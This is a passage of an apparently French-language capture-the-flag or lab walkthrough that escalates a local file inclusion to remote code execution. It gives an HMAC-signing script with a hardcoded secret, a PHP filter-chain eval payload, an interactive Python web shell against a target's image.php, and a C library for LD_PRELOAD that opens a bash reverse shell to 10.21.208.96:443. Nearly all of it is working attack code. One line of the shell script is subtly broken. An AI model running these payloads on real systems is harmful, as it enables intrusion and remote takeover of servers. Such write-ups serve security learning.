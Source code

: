 ```python
#!/usr/bin/env python3
import hmac, hashlib, sys
secret=b'an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW'
print(hmac.new(secret, sys.argv[1].encode(), hashlib.sha256).hexdigest())
```

---

## 5. Phase 4 : de la LFI à la RCE via filtres PHP

### 4.1 Génération de la chaîne malveillante

```bash
python3 php_filter_chain_generator.py --chain '<?=eval($_GET[0])?>'
```

Copier la chaîne (longue) dans la variable `CHAIN` :

```bash
CHAIN='php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp'
HASH=$(python3 hash_calc.py "$CHAIN")
```

### 4.2 Mini‑shell interactif (execute\_code.py)

```python
import hmac, hashlib, requests, readline, urllib.parse
secret=b'an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW'
path=b'" + CHAIN.encode() + b"'
H=hmac.new(secret,path,hashlib.sha256).hexdigest()
while True:
    cmd=input('code> ')
    params={'hash':H,'path':path,'0':cmd}
    r=requests.get(f'http://{sys.argv[1]}/image.php',params=params,timeout=5)
    print(r.text)
```

Lancer :

```bash
python3 execute_code.py $TARGET
```

---

## 6. Phase 5 : bypass des fonctions désactivées

### 5.1 Compilation de la bibliothèque partagée

```c
// shell.c
#include <stdlib.h>
void _init(){
    unsetenv("LD_PRELOAD");
    system("bash -c \"bash -i >& /dev/tcp/10.21.208.96/443 0>&1\"");
}
```

